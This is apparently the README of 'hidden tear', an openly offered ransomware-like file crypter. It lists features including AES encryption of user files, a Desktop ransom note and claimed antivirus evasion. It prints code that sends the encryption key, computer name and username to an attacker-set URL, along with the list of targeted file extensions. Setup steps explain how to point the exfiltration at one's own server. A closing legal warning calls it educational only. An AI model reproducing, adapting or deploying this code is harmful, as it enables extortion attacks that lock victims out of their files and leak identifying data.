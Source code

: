          _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
It's a ransomware-like file crypter sample which can be modified for specific purposes. 

**Features**
* Uses AES algorithm to encrypt files.
* Sends encryption key to a server.
* Encrypted files can be decrypt in decrypter program with encryption key.
* Creates a text file in Desktop with given message.
* Small file size (12 KB)
* Doesn't detected to antivirus programs (15/08/2015) http://nodistribute.com/result/6a4jDwi83Fzt

**Demonstration Video**

https://www.youtube.com/watch?v=LtiRISepIfs

**Usage**

* You need to have a web server which supports scripting languages like php,python etc. Change this line with your URL. (You better use Https connection to avoid eavesdropping)

  `string targetURL = "http://www.utkusen.com/hidden-tear/write.php?info=";`

* The script should writes the GET parameter to a text file. Sending process running in `SendPassword()` function

  ```
  string info = computerName + "-" + userName + " " + password;
  var fullUrl = targetURL + info;
  var conent = new System.Net.WebClient().DownloadString(fullUrl);
  
  ```
* Target file extensions can be change. Default list:

```
var validExtensions = new[]{".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd"};
```
**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.
